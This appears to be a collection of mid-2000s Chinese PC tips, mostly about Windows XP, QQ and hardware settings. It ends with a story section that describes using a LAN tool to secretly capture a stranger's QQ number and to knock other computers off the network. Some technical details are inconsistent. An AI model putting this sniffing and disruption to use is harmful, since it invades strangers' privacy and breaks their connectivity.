由于系统中存在漏洞或者配置不完善，很多朋友的硬盘上都被入侵者建立了没有名字的目录，这种目录成了入侵者提供FTP下载的空间，称为PUB。想想自己的计算机莫名其妙成了别人的服务器，是不是非常气愤？最要命的这种目录既无法访问，也无法删除。尝试了“安全模式”、DOS启动等各种方法后都不能解决掉这类PUB目录，那么试试PC File Remover（下载地址：http://www.newhua.com/cfan/200520/pcfr.rar）吧，下载运行后出现一个DOS窗口，用↑↓键控制目录的选择，选中PUB目录后按D键，确认后即可轻松删除这个讨厌的目录。

## 改驱动属性加速XP启动
在“设备管理器”中，展开“IDE ATA/ATAPI控制器”分支，分别双击打开其下的“主要IDE通道”和“次要IDE通道”的“属性”，在“高级设置”选项卡中将已经接上硬盘或光驱的设备的“传送模式”都设置为“DMA（若可用）”（接上设备的“当前传送模式”会变为“Ultra DMA Mode x”，未接的则一般为“适用”），然后将没有接上的设备的“设备类型”都设置为“无”，这样就能减少开机“自动检测”的时间，从而提高启动速度。

## 巧妙抓取防滚屏网页
经常使用抓屏软件存档网页的朋友们一定都会发现，现在不少网站出于安全的考虑都屏蔽了网页自动滚屏功能，这样就不能像以前那样正常抓取带滚动条的网页了（如网易的邮箱登录页面http://mail.163.com）。其实这是由于网页设计者在页面中添加了W3C代码，只要把W3C代码删除掉，这个网页就能像正常网页一样被全屏抓取了。

首先在浏览器中打开被屏蔽的网页，然后点击“文件”菜单中的“另存为”命令，将当前网页以“网页，全部(*.htm, *.html)”的格式保存在桌面上，并用“记事本”打开这个网页文件。删除文件开头类似“<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3c.org/TR/1999/REC-html401-19991224/loose.dtd">”的代码，这段就是起到屏蔽网页滚动作用的代码。删除后，再用IE重新打开这个文件，就可以截取了。

## DIY “视保屏”
两年前，笔者添置了一台19寸显示器，可惜上面经常有朋友们“千夫所指”留下的印记和难以避免的灰尘，即使用擦镜布(纸)来擦拭也不是长久之计，擦完了还会“再生”，用上视保屏也一样麻烦，于是只有找其他变通方法。

一个偶然机会我发现了，当我在翻看家里日历查询节气时，发现每张挂历都有一张透明的塑料薄膜附在上面，我马上联想到能不能把透明的塑料薄膜按显示屏的尺寸裁减，再用细小的透明胶带将其固定，这样几乎不影响显示屏美观。至今我使用自制的视保屏已经两年了，效果一直很好，视保屏也不用了，做清洁时不用再买专用的擦镜布(纸)了，用柔软棉布擦拭即可，更重要的是倘若自制的视保屏不慎被刮花之后，只需重新换一张新的透明塑料薄膜就可以了，毕竟每个家庭里日历还是挺多的。此方法不仅适用于CRT显示器，同样适用于LCD显示器，“爱面子”的广大电脑爱好者不妨一试。

## 彻底终止鼠标关机后仍然发光
主板的键盘鼠标开机功能是造成鼠标在关机后仍然发光的最普遍的原因。目前绝大多数主板的BIOS中都提供了对键盘鼠标开机功能的设定，大家可以进入BIOS主菜单的“Power Management Setup”页面，找到“S3 KB Wake-Up Function”或含义相似的选项（比如“Resume On KBC”、“Resume On PS/2 Mouse”等），将其设置为“Disable”，关闭主板对键盘和鼠标的+5VSB供电，PS/2光电鼠标在关机之后自然也就不会亮了。很多主板还提供了USB键盘鼠标开机功能，在这些主板上USB光电鼠标也会在关机后继续发光。要关闭此项功能的过程与关闭PS/2键盘鼠标开机功能相似，大家进入BIOS主菜单的“Power Management Setup”页面，将“USB Wake-Up From S3”或含义相似的选项设置为“Disable”即可。

## 灵犀一指“指点杆”使用技巧
大家都熟悉IBM Thinkpad笔记本的指点杆（Track Point），也许大家都会用指点杆，但是如何设置它呢？首先打开“控制面板→鼠标→Trackpoint”，就可以看到操作界面了。那个滑轨是用来调节指点杆的灵活程度的，向左变缓慢，向右则变敏捷。选中下面的“Scrolling Standard”，就是开启了指点杆的滚轮功能。先按住键盘下方鼠标左右键后的那个蓝色的按键，移动指点杆，这时就可以滚动屏幕浏览网页了。“Magnifying Glass”就是又一大特色，也就是放大镜功能，它可以选择放大的倍数，从1X ~ 8X，视力不好或者想把图看仔细的朋友有了它就不用发愁了。点击“Setting”可以对滚轮功能和放大镜功能做进一步的设置。

## 提高照片打印分辨率
只要是三年之内购买的数码相机，每一次拍摄都会最少捕捉100万像素的数据。这对于打印4 × 6英寸的精美相片足够了。200百万像素的图片能够承载足够的输出信息，从而打印相同尺寸的高画质图像。要生成8 × 10英寸的打印图片，你至少需要300百万像素的分辨率。如果你有一部新相机，你就不必发愁了，因为绝大部分新相机提供400万~800万像素的分辨率。在你想要将拍摄的照片打印出来时，将你的相机调整到最佳分辨率。许多数码相机，制造商已经将多种场景模式设定好，使你很容易有意或无意地改变分辨率。

## 备份OE的邮件规则
每次重装系统后，以前设置的邮件规则也就丢失了，还要重新设置一次，非常麻烦。其实我们可以将邮件规则备份下来，重装系统后直接导入即可。

第一步：点击“开始→运行”，输入命令：regedit，按回车键后启动注册表编辑器。选中[HKEY_CURRENT_USER\Identities\{46DBA825-045C-41FA-BC19-9D55D59CB2FD}\Software\Microsoft\Outlook Express\5.0\Rules]项，“Rules”下的各个子键就是我们定制的各种邮件规则，执行“文件→导出”命令将该项分支导出并备份就可以了。注意：这里的{46DBA825-045C-41FA-BC19-9D55D59CB2FD}是用户的邮件ID，每个人，甚至同一个人重装系统后，都会是不一样的。

第二步：在重装系统后，要想还原OE的邮件规则，可进入注册表编辑器，依次展开：[HKEY_CURRENT_USER\Identities\{用户邮件ID}]，把用户邮件ID复制下来。再用记事本打开上面我们备份的邮件规则注册表文件，用复制的邮件ID替换掉旧有的邮件ID，保存后双击该注册表文件将其导入注册表中就可以了。

特别提醒：因为涉及注册表操作，有一定的风险，所以菜鸟最好不要尝试。高手尝试，也应事先做好整个注册表备份工作，以防万一。

## 登记QQ群实名如此简单
由于腾讯已经开始实施QQ群实名制，如果所在的QQ群的群主没有登记自己真实身份，在QQ2005 Beta3中此QQ群后面会出现“未登记”字样，相信身为QQ群主的你一定很不情愿自己的QQ群出现如此“不雅”的字样吧。其实，只需右击此群名称，选择“修改群组资料”，然后切换到“我的群名片”标签，在“真实姓名”栏中输入你的姓名，然后按下“修改”按钮便可。经过笔者试验，即使你输入的不是你的真实姓名，也能撤除“未登记”字样，快来一试吧。

## 解决256色的困扰
很多电脑游戏玩家都有这样的烦恼，在一些游戏异常退出（如收到 QQ 消息弹回桌面，游戏发生错误退出）后，屏幕的颜色显示竟然出现了问题，原本的真彩色变成了难看的256色。于是只好右击桌面选择“属性”，在“显示属性”窗口的“设置”选项卡中把“颜色”改回来，可是一点“颜色”下拉菜单却傻了眼——只剩下16色和256色两个选项了，无奈只好通过重启或者重装显卡驱动等方法来解决。其实这是由于显卡的驱动程序不完善或者游戏本身的问题造成的，不妨可以试试这个方法：同样在“显示属性”的“设置”选项卡中，点击“高级”按钮，在弹出窗口中选择“适配器”选项卡，点击其左下角的“列出所有模式”按钮，然后就可以在弹出框中正常选择所需的分辨率、颜色及刷新率信息了。

## 快速查看用户组
对于多人共用的机器，网管想快速知道当前用户所处的组和域，可以在控制面板的用户资料中查找，也可以通过 Net User 命令来查询，不过还有没有更快捷的方法呢？其实我们可以给资源管理器或IE添加一条工具栏，用来显示当前的用户信息，此技巧适用于Windows 2000/XP。

首先到 http://www.newhua.com/cfan/200521/PrivBar.zip 下载工具栏文件，解压后得到 PrivBar.dll，保存到 C:\，然后点击“开始→运行”并在运行框中输入 “regsvr32 c:\PrivBar.dll”，确认注册成功，接着双击 PrivBarReg.reg 将此文件合并到注册表中。关闭“资源管理器”和所有 IE 窗口，然后重新打开，在工具栏上右键选择 “PrivBar”，这时我们就可以直接在资源管理器或 IE 上看到当前的用户信息了。

## 快速和 QQ 任意好友聊天
在新版 QQ 中可和任意好友聊天，不过有些麻烦，需要记下那个一长串的网址，其实根本不用这么麻烦，用 QQ 原本的功能就可以解决。

- 第一步:从 QQ 主界面中点击“通讯录”项。
- 第二步:右击，选择“新建联系人”，在弹出窗口中输入“姓名”及“QQ号码”，点击“完成”。
- 第三步:回到“通讯录”中，新建联系人右侧就会有企鹅图标出现，点击该图标，就可以打开临时对话框了。

不过在测试中发现，最新的 QQ 2005 Beta3 已经不支持此功能。

## 别让防火墙挡了内网互联的路
如果你使用的是天网防火墙，局域网中的其他电脑无法访问你的资源时，可能是由于其规则设置出现问题，需要重新进行设置：打开天网防火墙主窗口，点击面板上侧的“IP 规则管理”，然后勾选“允许局域网内的机器进行连接和传输”及“允许局域网的机器使用我的共享资源”即可。

如果安装的是江民黑客防火墙，则可以点击“IP 规则设置”，在弹出的列表中勾选“允许本机连接局域网内的其他机器”及“局域网内的其他机器访问本机(TCP)”两项。

## 是否隐身巧判断
在 QQ 上如何查看好友是否在线呢？只要向对方发送视频邀请，不管对方是选择了“拒绝”，还是直接关闭聊天窗口，都会在提示“对方拒绝了您的视频请求”，这样就可以判断他是否在线了。当然如何他不进行任何操作则没办法判断了。

## 找回消失的移动硬盘盘符
在安装好驱动程序之后，可以从设备管理器中查看到移动硬盘图标，但是在资源管理器中却没有相应的盘符标识，这就是系统设置不当所致。在设备管理器中双击移动硬盘图标，并且点击弹出窗口中的“属性”按钮，此时可以看见断开、可删除、同步数据传输和 Int 13 单元四个选项，其中“可删除”一项前面系统默认是没有打钩的，只要勾选这个选项之后重新启动计算机，就可以在资源管理器中看见新增的移动硬盘盘符了。

## 直接热拔移动硬盘
有时通过任务栏“拔出或弹出硬件”来卸下 USB 硬盘时，它经常会提示“现在无法停止‘通用卷’设备。请稍候再停止该设备。”的消息，并且无法卸载和拔下来。不过，在 Windows XP 系统中，只要进入“控制面板→系统→硬件→设备管理器”，双击“磁盘驱动器”下的相应 USB 硬盘项（如 IC25N 020 ATCS04-0 USB Device），再在打开的窗口中单击“策略”标签，选中“为快速删除而优化”项，这样以后当确认没有打开 USB 硬盘上的文件或者对其进行操作时，可以放心地直接将它拔下来。

## 另类方法为因特网浏览提速
有一次，我意外发现修改注册表中的一个键值能提高因特网的浏览速度，对使用 Modem 或 ISDN 的用户，会有明显感觉。方法是：在注册表编辑器中找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings]，双击右侧的 MaxConnectionsPer1_0Server（如果没有则新建，类型为 REG_DWORD，下同）项，将其值修改为 6，注意，该值要选择为“十进制”。同样方法，将 MaxConnectionsPer1_0Server 也设置为十进制的 6。

## 让 Windows XP 的搜索得更全面
Windows XP 默认设置下的搜索不是很全面，比如它不会搜索隐藏目录或系统目录，不支持某些文件类型的内部搜索等。可通过下面的方法修改 XP 的搜索设置。

### 1. 让搜索的文件夹更全面
打开注册表编辑器，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]，在右侧窗格分别将 CaseSensitive、IncludeSubFolders、SearchHidden、SearchSlowFiles、SearchSystemDirs（如果没有则新建，类型为 REG_DWORD）的值都修改为 1 即可。

### 2. 让内部搜索的文件类型更全面
Windows XP 能在文本文件内部进行关键词搜索（比如：DOC、RTF、TXT 文件等），如果想让 XP 支持更多其他类型的文本文件，可在注册表编辑器中找到 [HKEY_CLASSES_ROOT]，找到相应]文件类型项，在其下新建一个名为 “PersistentHandler” 的项，并将其默认值修改为 “{5e941d80- bf96-11cd- b579- 08002b30bfeb}” 即可。

## 为 Windows XP 的搜索提速
通过刚才介绍的技巧，可以搜索到更多想要的结果，但搜索速度也会相应下降。所以要想提高搜索速度，可反其道而行之，就是将上一技巧中提到的 CaseSensitive、IncludeSubFolders、SearchHidden、SearchSlowFiles、SearchSystemDirs 值修改为 0，将 [HKEY_CLASSES_ROOT] 分支下不需要的文件类型中的 “PersistentHandler” 项删除掉。还有就是，在 Windows XP 的搜索窗口中，依次单击“改变首选项→使用制作索引服务”，然后选择“是”项并确定，系统就会在处于空闲状态时自动建立索引文件，可大大提高搜索速度。

## 修改 Windows XP 的序列号
很多 MM 都会有这种遭遇，系统崩溃了找 GG 来帮忙，GG 二话没说就把系统重装了，而且装的 Windows XP 竟然还用了盗版的序列号，可是 MM 的品牌电脑明明附带了正版 Windows XP 的序列号，这下可好，难道又要重装一次？很多人认为 Windows XP 一经激活，序列号就无法修改，其实不但可以修改，而且方法还很简单。

- 第一步:点击“开始→运行”，输入 regedit.exe 打开“注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\WPAEvents]，在右侧窗格中右击 “OOBETimer” 选择“修改”，在弹出框中至少修改一个字节，点击“确定”保存。
- 第二步:运行 “%systemroot%\system32\oobe\msoobe.exe /a”，在弹出的激活向导中选择“通过电话激活”并点击下一步，然后点击“修改序列号”后选择更新。
- 第三步:如果序列号填写错误则会退回到前一个画面，选择“稍后激活”并重新启动。重复进行第二步直到成功为止，重新激活后点击“确定”即可。

## 把任务栏锁得更牢
在 Windows XP 中可以将任务栏锁定来固定布局防止修改，但实际上只需右键点击任务栏空白处，取消“锁定任务栏”的勾选，这个锁定状态就被解除了。有什么方法能把任务栏锁得更牢呢？在 Windows XP（只限专业版）中运行 gpedit.msc 启动“组策略编辑器”，依次展开“用户配置→管理模板→任务栏和[开始]菜单”，在右侧列表中找到“锁定任务栏”并双击，在弹出的“锁定任务栏属性”窗口中选择“设置”选项卡，选择“已启用”并点击“确定”保存设置。现在右击任务栏空白处，“锁定任务栏”选项已经变成灰色不可选状态了。

## 在 Word 中批量将文字替换成图片
在日常编辑 Word 文档时，有时会需要将文档中的文字替换为图片，比如将文章中所有“特符1”替换为某个图片格式的符号。实现的方法很简单：

- 第一步:打开需要编辑的文档，选中第一次出现出现的“特符1”。
- 第二步:点击菜单中的“插入→图片→来自文件”，插入符号文件，回到文档编辑窗口。
- 第三步:选中图片文件，用 Ctrl+C 键复制，按 Ctrl+H，打开“替换”窗口，在“查找内容”中输入“特符1”（不含引号），在“替换为”中输入“^c”（不含引号，c 为小写），点击“全部替换”按钮即可。

## 彻底清除“流氓软件”
经常上网，安装各种软件，系统里就会出现各种各样的“流氓软件”，有些更是强制安装到系统中，虽然有杀毒软件的保护，但仍然会有些“流氓软件”的“尸体”保存在系统中，如何清除这些“尸体”文件呢？如何清除完整的“流氓软件”呢？其实可以用一款名为“流氓软件清理助手”（下载地址: http://www.newhua.com/cfan/200522/roguecleaner.rar）的软件来清除。打开软件，点击“检测”按钮，就可以检测到是否有流氓软件了，如发现有，只要点击“清理”即可。

## 一招让摄像头变成数码摄像机
Windows XP 中自带了一个视频编辑软件 Movie Maker，利用它便可让有摄像头的你也过一把摄像瘾。通过开始菜单启动 Movie Marker 后，单击屏幕右侧“捕获视频”中的“从视频设备捕获”选项，此时会弹出一个“视频捕获向导窗口”。在“可用设备”中我们可以看到安装好的摄像头，而在“音频设备”中我们可以选择计算机的声卡配合麦克风来录制声音。然后配置好拍摄的视频格式、“帧率”、“颜色空间”和“输出大小”等配置，单击“开始捕获”按钮，就可以开始录制视频了。

## 巧用鼠标滚轮 实现特殊功能
在 Office 中，除了我们通常所熟悉的浏览（文档、图片或网页等）作用外，滚轮鼠标在 Word 中还有很多用处，一手按着 “Ctrl” 键，然后转动鼠标的滚轮时，你会发现文档的视图比例发生了变化，向上滚动放大，向下滚动缩小。用这种方法来调整视图的比例不仅方便快捷，而且还可以实现无级缩放。

## 快速修改输错的网址

如果输入的网址有错，一般我们会连续按左右方向键（“←”和“→”）移动光标到出错的位置进行修改。其实，如果按住Ctrl键不放再按左右方向键，会发现光标移动得更快，它不是一个字母一个字母的移动，而是以单词为单位进行移动，这无疑会节约我们改错的时间。如果懒得修改，可以直接按 Alt+D 全选网址，删除再输入新网址就可以了。

## 给桌面开个“收藏夹”窗口

上网冲浪时遇到好的网站，我们总是习惯将它们添加到IE收藏夹中，以后就可以通过收藏夹菜单快速访问这些网站了。我们还可以在桌面上开一个窗口，让它显示出收藏夹的内容，只需要简单点击就可访问心仪的网站，会更加方便：右击桌面，选择“新建→快捷方式”，在“请输入项目的位置”框中输入“C:\Program Files\Internet Explorer\iexplore.exe” -channelband”（不含外面的引号，里面的英文引号则是必须的）。完成后，双击桌面上的这个快捷方式，就可以在桌面上开一个“收藏夹”窗口了。

## 没有输入法也可输入汉字

如果有些朋友经常临时在一些电脑上进行一些操作（例如网吧、朋友的电脑），而这些电脑中并没有我们习惯的输入法，有时这些电脑上还做了些限制不能安装软件。这时我们可以使用在线输入法来达到目的：在浏览器中打开 http://www.inputking.com/GB/index.php 页面，然后选择你习惯使用的输入法进行文字输入，最后将输入的文字拷贝到目标位置即可。

## 霸占无主文件夹的管理权

重装Windows后，有很多用户都遇到了打开某些文件夹时弹出“拒绝访问”错误提示框的情况，右击打开“属性”后在“安全”选项卡中也无法设置权限。为什么重装系统前还是好好的，重装完就拒绝访问了呢？这是由于原来曾经对此文件夹的权限进行过特殊的设置，只提供了某个用户对该文件夹的访问和控制权，这样重装后这些文件夹自然就成为无主文件夹了，那这样是否就意味着这个文件夹就永远成为“系统死角”了呢？当然不是，通过下面方法可以重新找回这些无主文件夹的管理权：

确认在“文件夹选项”中已经取消了“简单文件共享”的勾选，然后右击该文件夹选择“属性”，在弹出窗口的“安全”选项卡中点击“高级”按钮，此时在打开的文件夹高级安全设置窗口中打开“所有者”选项卡，在“将所有者更改为”列表中选择当前用户，同时勾选下方的“替换子容器及对象的所有者”，点击“确定”，成为文件夹的所有者后就拥有了更改其权限设置的能力，添加好当前用户的“完全控制”后就能正常使用了。

## 重装“系统还原”

“系统还原”是Windows XP中一个非常实用的功能，在系统出现问题时只需还原到最近的一个还原点即可。可是如果“系统还原”自己都出了问题，谁能将它还原呢？下面给出“系统还原”功能的重装方法：

首先在“资源管理器”中选择菜单“工具→文件夹选项”，在“查看”选项卡中选择“显示所有文件和文件夹”，然后取消“隐藏已知文件类型的扩展名”的勾选。打开 C:\Windows\inf 目录，在其下有一个 sr.inf 文件，右击它选择“安装”，此时会弹出“请插入 Windows XP 安装光盘”的提示框，插入光盘后点击提示框中的“浏览”按钮，选择打开光盘i386目录下的“SR.SY_”文件，此时系统就会重装“系统还原”，完成后重启即可。

## 给Word文档设置不同的页眉页脚

在Word中编辑文档时，很少有一篇文章从头到尾都使用同一页眉页脚的，那么如何来设置不同的页眉页脚呢？只要使用“分节符”就可以完成这个操作。

- 第一步：打开文档，将光标定位至要改变页眉页脚的页码，点击菜单中的“插入→分隔符”，在弹出窗口中选择“下一页”。
- 第二步：选择菜单中的“视图→页眉页脚”，插入页眉页脚。
- 第三步：在插入完页眉页脚的第1节后，点击“页眉页脚”工具栏上的“显示下一项”按钮，转到下一节的页眉处。
- 第四步：点击“页眉页脚”工具栏上的“链接到前一个”按钮，切断本节页眉页脚与前1节的关联。重新设置新的页眉页脚即可。

## 去除8XXG系统主板驱动添加的右键菜单

用过8XXG系统主板的朋友（尤其是很多笔记本电脑用户）应该都知道它的驱动程序会在桌面右键菜单中添加“另存为图式”、“图形选项”及“显示模式”三个选项，多了它们会影响右键菜单的速度，其实可以点击“开始→运行”，在“运行”窗口中输入“Regsvr32 /u igfxpph.dll”(不含引号)即可去除，想要恢复时，再输入“Regsvr32 igfxpph.dll”(不含引号)即可。

## 做键盘挑选高手

自己的笔记本按键有问题容易发现，但在购买笔记本（特别是二手笔记本）时，要一个一个地试验包括功能按钮在内的所有按键就显得非常麻烦。这时我们可以依赖一个小小的软件——Keyboard Test，其最新版本为2.2，借助这个工具，你就可以非常容易地检测笔记本按键的状态了。同时该软件也可以检测台式机键盘。

## 电池不好用，放电来解决

如果你是一位华硕笔记本的用户，当你觉得笔记本的电池由于不良的充放电习惯而老化的时候，就可以通过“放电”校正软件来修复。

不少笔记本提供了类似的功能来延长电池寿命，它们都是通过将电池完全地充电与放电来达到重新焕发电池活力的目的。在这个过程中，你要随时注意笔记本的英文提示，如“接上AC电源”、“移除AC电源”等，这个过程中最好不要盲目断电，直到程序完成。

## 降显存容量提速

目前有不少笔记本电脑采用集成芯片组，其显示卡显存是从内存共享所得。对那些只注重办公的用户来说，这种笔记本无疑是节省成本的方法。虽然集成显卡理论上对办公性能没有影响，但是共享的显存却有可能成为性能下降的杀手。特别是一些内存只有128MB的笔记本，其显存默认设置为32MB，这样一来可供使用的内存便只有96MB，性能大打折扣，这时我们就有必要手动设置降低显存数量，以释放更多的内存，提高性能。

## 浏览PDF，不用IE自作主张

在浏览网页时，点击其中的PDF文件链接，IE并不显示下载对话框，而是自作聪明地使用内嵌插件（必须已安装有Acrobat或Reader阅读器）在IE内部打开该文件进行浏览。这虽然很方便，但在线打开PDF文件的速度非常慢，所以我们更愿意先下载PDF文件，然后再在本机上使用Adobe Reader来阅读。通过下面的方法，可以轻松找回PDF文件下载提示框。

- 第一步：单击“开始→运行”，输入命令：regedit，回车后即可打开注册表编辑器。找到 [HKEY_CLASSES_ROOT\AcroPDF.PDF.1]，双击其右侧的EditFlags项（如果没有则新建一个，类型为REG_BINARY），将其值改为：“00 00 00 00”（不含引号）。
- 第二步：在注册表编辑器中，找到 [HKEY_CLASSES_ROOT\AcroExch.Document.7]，将右侧的EditFlags项也改为：“00 00 00 00”。最后关闭注册表编辑器就可以了，现在在IE中再点击PDF文件链接，就会弹出熟悉的“文件下载”对话框来，想要直接打开还是保存到硬盘，任你选择。
- 注意：本技巧适用于安装了 Adobe Acrobat（或 Reader）v7.0的系统。另外在试技巧前，一定要做好注册表的备份工作。

## IE地址栏巧变计算器

只要记住一个简单的JavaScript函数，就可以将IE浏览器地址栏变成一个计算器。在地址栏中输入：“javascript:eval(你的公式)”（不含引号），按回车即可得到结果。下面的例子就是用来计算123、456、789三数之和的：

```
javascript:eval(123+456+789)
```

按回车即可得到“1368”这个结果。常用的几个运算符号分别为：加（+）、减（-）、乘（*）、除（/）。支持使用小括号“()”。按 Ctrl + L 键调出的“打开”对话框，同样支持这一计算功能。

## 快速使用镜像文件

镜像文件我们已经知道了，但如何使用镜像文件呢？当然就要有虚拟光驱软件了，我们从网上下载的镜像文件多是ISO、MDS、BIN及CUE等几种。

如果想简单点，使用Nero（应该已经成了很多人的装机必备软件）中自带的Nero ImageDrive就可以虚拟ISO及NRG两种模式的镜像文件了。当然，建议你还是准备一款专门的虚拟光驱软件以应付各种镜像文件。推荐你使用Daemon Tools或Alcohol 120%两款虚拟光驱软件。这里我们重点介绍Daemon Tools这款免费软件。

Daemon Tools 前段时间推出了最新的4.0版，新版本经过全新设计，采用全新的模拟架构，不过使用起来和3.X版本几乎相同：先从 http://nj.onlinedown.net/soft/3616.htm 下载Daemon Tools，从 http://nj.onlinedown.net/soft/22707.htm 下载其汉化补丁。安装并运行软件（注意软件捆绑了DAEMON TOOLS SEARCHBAR，建议不要安装），右击软件在系统托盘的图标，选择“虚拟驱动器→驱动器*[ ]无媒体→安装镜像”菜单项，选择镜像文件即可。

## 有效减少光驱损耗

笔记本的光驱价格比普通光驱价格高很多，减少光驱损耗的基本原则就是注意保养和尽量少用，注意保养包括平时不要把光驱托盘打开暴露在灰尘中，不要使用偏心较大或者盘片质量较差的光盘，每次抽出光驱托架时不要用力过猛，放置盘片和推回托架时使光驱保持水平，但是尽量少用这一点和实际是冲突的，不用光驱那么要光驱干什么？我们能做的是减少光驱的损耗，例如不要长时间连续读盘（如尽可能少用光驱长时间地直接播放影碟）或刻录和放DVD，每次使用结束后，尽快将光盘取出，还有使用Nero Drive Speed之类的软件减低光驱的运转速度、将光盘制作镜像后使用虚拟光驱等。

## 认识你真好——QQ泡MM的奇招妙招

Q猪最近跟一个叫Q小妹的MM恋爱了，而且谈的还是时髦的网恋。Q猪常说：我谈这场恋爱是世界上最廉价的爱情，因为我从来没请她吃过饭，也没送过玫瑰，只通过QQ来交流而已，但它同时又是世界上最珍贵的爱情，因为我们都投入了十二分感情……下面我们一起来看看Q猪是如何追到Q小妹的，这里可是有很多“技术含量”哦^_^！

### 邂逅——缘分也能“制造”出来

大家猜猜Q猪是如何认识Q小妹的？嘿嘿……好像手段有点不光彩。话说Q猪那天正在网吧上网，无意之间发现了一个神奇软件，名叫“QQ第六感”，可以查看局域网内所有已经登录的QQ号码！只见Q猪环顾四周，迷眼朦朦中发现一窈窕淑女正在上网。三秒钟之后，Q猪做了一个改变自己一生的决定：让“QQ第六感”成为自己的“红娘”……

| 属性 | 值 |
|------|-----|
| 软件版本 | V1.8 |
| 软件大小 | 511KB |
| 软件性质 | 共享软件 |
| 运行平台 | Windows 9X/ME/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/38599.htm |

首先介绍一下如何探测同一局域网上的计算机中登录的QQ号码。需要注意的是，QQ第六感是个共享软件，如果你没有注册，只能看到其QQ号码的前5位，后几位都以星号密文显示。
第一步：安装运行QQ第六感后，软件会可能会提示“错误：本机上没有可用的活动网络适配器！”，不用着急，确认后进入软件主界面。单击“初始化适配器列表”按钮，这时候软件会做出同样的提示，确认后我们可以看到“适配器”一栏内容为形如“\Device\NPF_{1BF46297-4AE9-46D4-A89E-1F2EBA5AB452}”，这就表示适配器已经识别。
第二步：单击“自定义”按钮，在“网关IP”、“本地IP”和“子网掩码”处做符合实际情况的设置。如果你不知道本机的网关IP和本地IP，那么首先运行“cmd”命令打开命令提示符界面，再运行“ipconfig /all”命令即可获得。设置完毕后单击“在线主机”按钮，这时候我们就可以在“在线主机IP地址”栏看到目前已经连接到局域网的计算机的IP地址列表(见图1)。



图1
第三步：以探测IP地址为192.168.1.104的计算机上是否登录有QQ为例，在“在线主机IP地址”栏中选中“192.168.0.104”，单击“监听QQ号”按钮，稍等片刻，如果该计算机上登录有QQ，那么在软件主界面中我们就能看到该IP的IP地址和QQ号码。

**小提示**
根据笔者测试，在监听过程中，本机(也就是安装QQ第六感的计算机)会断开Internet连接，不过这不影响我们对该软件的使用。关闭软件后稍等片刻，网络即可恢复正常。
除能够探测局域网上计算机中登录的QQ号码外，QQ第六感还能对在线主机进行冲突攻击：选中要攻击的IP地址，单击“冲突攻击”按钮即可。这时候地址为该IP的计算机会频繁弹出错误提示窗口：“IP地址与网络上的其他系统有冲突。”如果你再狠一点，单击“踢出网络”，那对方计算机就会与局域网断开了。这招可不要乱用呀！

### 碰壁——揪出爱隐身的Q小妹

Q猪通过“非常规”手段弄到了Q小妹的QQ号码并成功加她为好友，不过接下来的几天时间里，Q猪发现Q小妹总是不在线，难道这个Q小妹不上网了？那岂不是前功尽弃。为了鉴别这个Q小妹到底是隐身还是真的从此消失，Q猪又生一计——用LumaQQ！

| 属性 | 值 |
|------|-----|
| 软件版本 | LumaQQ 2004 For Windows(带JRE) |
| 软件大小 | 24743KB |
| 软件性质 | 免费软件 |
| 运行平台 | Win9X/ME/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/37852.htm |

很多朋友知道一种查看好友是否隐身的方法：给对方发送视频请求并取消，如果对方隐身则其头像变亮，否则为离线状态。不过该方法在最新版本QQ中已经失效，这时就只能请出LumaQQ来帮忙了！该软件我们以前曾经介绍过，这里就不再多介绍了。

### 攻坚——两招吊起Q小妹的胃口

原来这个酷酷Q小妹每次都上网隐身，不过每次总能被Q猪识破，久而久之Q小妹对Q猪很好奇，于是两人渐渐熟悉起来。Q猪抓住了这个有利时机，在MM面前耍起了自己的两招“QQ大法”，每用一招，两人的感情就会进展一步。

### 招式一：不是会员也能用“QQ密友”

所谓“QQ密友”，就是当你隐身时，可以让你的一些好友看到你的状态是“在线”。Q猪当然是要Q小妹看到他在线了，可这个非常实用的“QQ密友”功能却只有会员才能享受，而Q猪显然不是。其实只要你的QQ等级达到了20级，就可以切换到TM(Tencent Messenger)状态下使用该功能。方法是在你隐身的时候右键单击某个好友的昵称(比如Q小妹)，选择“隐身状态下对该联系人可见”菜单即可。

### 招式二：我的QQ“不男不女”

交往了一段时间，Q猪要表白了。不过他却选择了一种比较含蓄的方法——将自己的QQ性别改成了“妹”。要是Q小妹无意之间看到了，肯定会感动得一塌糊涂。

第一步：首先到http://nj.onlinedown.net/soft/9594.htm下载eXeScope 6.50简体中文版，接下来安装该软件并退出QQ。用eXeScope打开QQ目录下的QQRes.dll文件，依次选择“资源→对话框→1439”，接下来选中“性别”下面的“ComboBox”，在右边切换到“ComboBox”标签，将“类型”一项设置为“下拉”(见图2)，最后按下Ctrl+S保存并退出即可。



图2
第二步：登录自己的QQ，在个人资料设置中首先修改一下自己的“性别”栏(如果你本来设置为“男”，则先修改为“女”，否则无法修改成功)，接下来填写你要设置成的性别字样，比如“鬼”、“妖”等，注意只能是一个汉字或者最多3个英文字母。最后确认即可。

### 热恋——搞定“多种软件同时视频”问题

Q猪终于和Q小妹坠入爱河，两人常常在QQ上视频聊天。不过Q猪毕竟还有很多其他朋友，于是问题就来了：如果他正在跟Q小妹在QQ上聊天，就不能跟MSN Messenger上的朋友视频。不过这也难不倒Q猪。闲话少说，直接请出帮手——CamSplitter。CamSplitter的作用只有一个，那就是允许你将摄像头的驱动程序和摄像头本身在多个程序间同时使用。这里以同时在MSN Messenger和QQ上视频为例。

| 属性 | 值 |
|------|-----|
| 软件版本 | 1.6 |
| 软件大小 | 590KB |
| 软件性质 | 共享软件 |
| 运行平台 | Windows9X/ME/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/38492.htm |

第一步：首先确保正确安装摄像头，安装CamSplitter，完毕后右键单击其在系统托盘上的图标，选择“Choose webcam”，在打开窗口的下拉列表中选择“Microsoft WDM Image Capture (Win32)”一项目，单击“OK”。
第二步：右击软件图标，选择“Setup video format”菜单，在弹出的对话框中设置视频格式的分辨率等参数。一切妥当后我们打开QQ的“视频调节向导”，注意在“视频设备”一栏选择“CamSplitter”，其他的则按照我们平时的操作一样进行。MSN Messenger等其他即时通讯软件的设置与此操作类似。设置完毕后我们就可以同时使用不同的聊天软件来视频了。

### “养家”——教你一招永不过期刷Q币秘技

